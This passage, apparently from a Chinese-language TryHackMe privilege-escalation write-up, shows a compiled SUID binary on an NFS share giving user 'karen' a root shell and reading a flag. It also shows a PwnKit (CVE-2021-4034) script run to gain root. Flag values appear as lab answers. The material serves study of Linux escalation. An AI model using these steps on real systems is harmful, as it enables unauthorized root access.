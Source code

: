 然後編譯他,再設置SUID
```
                                                                                     
┌──(root💀kali)-[/tmp/backattack]
└─# gcc nfs.c -o nfs -w
                                                                                     
┌──(root💀kali)-[/tmp/backattack]
└─# chmod +s nfs             
                                                                                     
┌──(root💀kali)-[/tmp/backattack]
└─# ls -l nfs
-rwsr-sr-x 1 root root 16144 Jan 29 06:48 nfs

```
將在下面看到這兩個文件（nfs.c 和 nfs 存在於目標系統上。我們已經處理了掛載的共享，因此無需傳輸它們）。
```
karen@ip-10-10-114-222:/tmp$ ls
nfs
nfs.c
snap.lxd
systemd-private-938942e0de5c4374b813e2ba8cac71dc-systemd-logind.service-03F8vi
systemd-private-938942e0de5c4374b813e2ba8cac71dc-systemd-resolved.service-H8D11h
systemd-private-938942e0de5c4374b813e2ba8cac71dc-systemd-timesyncd.service-8rV0Hg
karen@ip-10-10-114-222:/tmp$ ./nfs
root@ip-10-10-114-222:/tmp# cd /home

root@ip-10-10-114-222:/home# cd matt/
root@ip-10-10-114-222:/home/matt# ls
flag7.txt
root@ip-10-10-114-222:/home/matt# cat flag7.txt 
THM-89384012
```

## task 12

### 1
`CVE-2021-4034`
```
[leonard@ip-10-10-178-144 ~]$ which python
/usr/bin/python
[leonard@ip-10-10-178-144 ~]$ python trans.py 
sh-4.2# bash -p
Could not open converter from “PWNKIT” to “UTF-8”
bash: /yum: No such file or directory
[root@ip-10-10-178-144 leonard]# cd /
```
### 2 
sudo -l 不可用
```
[leonard@ip-10-10-178-144 ~]$ sudo -l
[sudo] password for leonard: 
Sorry, user leonard may not run sudo on ip-10-10-178-144.
```
